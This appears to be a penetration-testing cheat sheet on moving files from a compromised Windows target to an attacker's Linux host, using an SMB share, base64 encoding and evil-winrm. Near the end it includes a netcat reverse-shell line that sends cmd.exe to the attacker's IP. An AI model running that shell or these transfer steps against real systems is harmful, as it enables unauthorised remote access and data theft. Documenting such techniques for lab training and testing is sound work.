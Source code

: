 ```yaml
---
title: "File Transfer (Windows To Linux)"
date: 2024-6-26
tags: ["file transfer", "Windows", "smb", "evil-winrm"]
---
```


---
### SMB

#### Start a Local SMB Server

```bash
impacket-smbserver share . -smb2support
```

#### cmd

```powershell
# Connect to SMB server without creds
net use \\10.10.14.10\share
```

```powershell
# Connect to SMB server with creds
net use \\10.10.14.10\share /u:<USER> <PASSWORD>
```

```powershell
# From target Windows to local Linux
copy example.txt \\10.10.14.10\share
```

```powershell
# From local Linux to target Windows
copy \\10.10.14.10\share\example.txt example.txt
```

```powershell
# Delete file
del example.txt
```

```powershell
# Remove SMB share
net use /d \\10.10.14.10\share
```

```powershell
# Older Windows (e.g. xp), use directly
\\10.10.14.10\share\nc.exe -e cmd.exe 10.10.14.10 443
```

<br>

---

### Base64 Encoding (for small binary)

```powershell
# In target Windows
[System.convert]::ToBase64String((Get-Content -Path 'C:\ProgramData\example.exe' -Encoding Byte))
```

```bash
# Copy and paste the base64 encoded binary to local Linux
echo -n '<BASE64_BINARY>' | base64 -d > example.exe
```

<small>*Note: For restricted environment*</small>

---

### Evil-winrm

```bash
# Evil-winrm built-in function
download "C:\ProgramData\example.txt" "/tmp/example.txt"
```

<br>
